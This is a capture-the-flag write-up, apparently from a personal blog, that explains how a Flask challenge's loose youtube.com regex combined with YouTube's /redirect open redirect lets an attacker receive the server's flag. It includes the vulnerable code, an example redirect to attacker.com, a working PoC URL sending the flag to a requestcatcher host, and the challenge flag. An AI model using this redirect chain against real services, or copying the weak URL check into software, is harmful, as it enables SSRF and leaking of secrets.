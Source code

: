 ```yaml
---
title: "0day Youtube Open Redirect to SSRF"
date: "2025-03-23"
description: "0day Youtube Open Redirect Vulnerability Chall in TCP1P Special Ramadhan 2025 "
draft: true
categories: [
    "Write-up"
]
tags : [
    "National",
    "TCP1P"
]
image: raaa.png
---
```


![](desc.png)

## Desclaimer
i didnt expect this is was 0day vuln lol, but the probset (problem setter) say this:

![](dim.png)

## Challenge Overview
The challenge presented a simple Flask web service with a single GET endpoint. The source code was available, and the functionality seemed straightforward: it accepted a url query parameter, validated that it was a youtube.com URL, and then made a server-side HTTP request to that URL.

```py
@app.get("/")
def home():
    url = request.args.get("url", False)
    if not url:
        return "Url not found"
    if not re.match(r"^https://youtube.com/.*$", url):
        return "url isn't youtube url"
    response = requests.get(url+"?"+FLAG)
    return response.text

```
The server would then send the contents of the fetched URL back in the response.

## Vulnerability Analysis
At first glance, the security filter appears to block non-YouTube URLs. But there's a subtle weakness: the service only checks that the URL starts with https://youtube.com/, and does not validate what the redirected URL points to.

#### Key Issue: Open Redirect on YouTube
YouTube uses a redirection system on the /redirect path, where URLs like this:
```bash
https://youtube.com/redirect?q=https://attacker.com
```
will redirect to https://attacker.com, but still pass the **regex check**.

The Flask app fetches that URL, which means it is **vulnerable to SSRF (Server-Side Request Forgery)** through this open redirect. By abusing this, an attacker can trick the server into making HTTP requests to any domain, including internal services.

## Exploitation Strategy
The `requests.get(url + "?" + FLAG)` portion appends the flag as a query string to the final destination. If the attacker can control the destination domain (via redirection), they can capture this flag.

To exploit it:
1. Setup a HTTP request logging service like webhook
2. Craft a Youtube redirect URL that points to your webhook

## PoC
```
http://playground.tcp1p.team:16787/?url=https://youtube.com/redirect?q=https://bargas.requestcatcher.com
```

![](poc.png)

![](reqcatch.png)

Flag: `RAMADAN{open_redirection_on_youtube_is_really_handy}`
